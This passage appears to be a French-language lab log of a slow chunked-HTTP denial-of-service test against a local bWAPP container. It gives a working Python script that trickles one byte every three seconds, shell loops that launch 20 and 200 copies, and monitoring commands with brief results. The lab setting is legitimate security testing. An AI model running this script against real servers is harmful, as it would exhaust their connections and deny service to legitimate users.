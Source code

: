 ##### 7) Nouveau script
    cat > /tmp/test_chunk_slow.py <<'PY'
    #!/usr/bin/env python3
    import socket, time, sys
    HOST="127.0.0.1"; PORT=8081
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.settimeout(5)
    try:
    s.connect((HOST,PORT))
    except Exception as e:
    print("conn fail", e); sys.exit(1)
    req = (
    "POST /portal.php HTTP/1.1\r\n"
    f"Host: {HOST}:{PORT}\r\n"
    "User-Agent: trickle-chunk\r\n"
    "Transfer-Encoding: chunked\r\n"
    "Connection: keep-alive\r\n"
    "\r\n"
    )
    s.sendall(req.encode())
    s.sendall(b"10000000\r\n")
    try:
    while True:
        s.sendall(b"A")    # 1 octet toutes les 3s
        time.sleep(3)
    except Exception as e:
    print("ended", e)
    finally:
    s.close()
    PY
    chmod +x /tmp/test_chunk_slow.py

##### 8) 20 lancements
for i in $(seq 1 20); do python3 /tmp/test_chunk_slow.py & sleep 0.1; done

1. Observation
sudo ss -tanp | grep ':8081' | sed -n '1,60p'
sudo lsof -nP -iTCP:8081
docker stats --no-stream bwapp
top -b -n1 | head -20

2. Résultats clés
- ~**20 ESTABLISHED** vers **127.0.0.1:8081**.
- **bwapp** : PIDs **27 → 50**.
- Impact **faible**, service **OK**.

##### 9) 200 lancements
for i in $(seq 1 200); do python3 /tmp/test_chunk_slow.py >/dev/null 2>&1 & sleep 0.05; done

1. Observation
sudo ss -tanp | grep ':8081' | sed -n '1,60p'
sudo lsof -nP -iTCP:8081
docker stats --no-stream bwapp
top -b -n1 | head -20
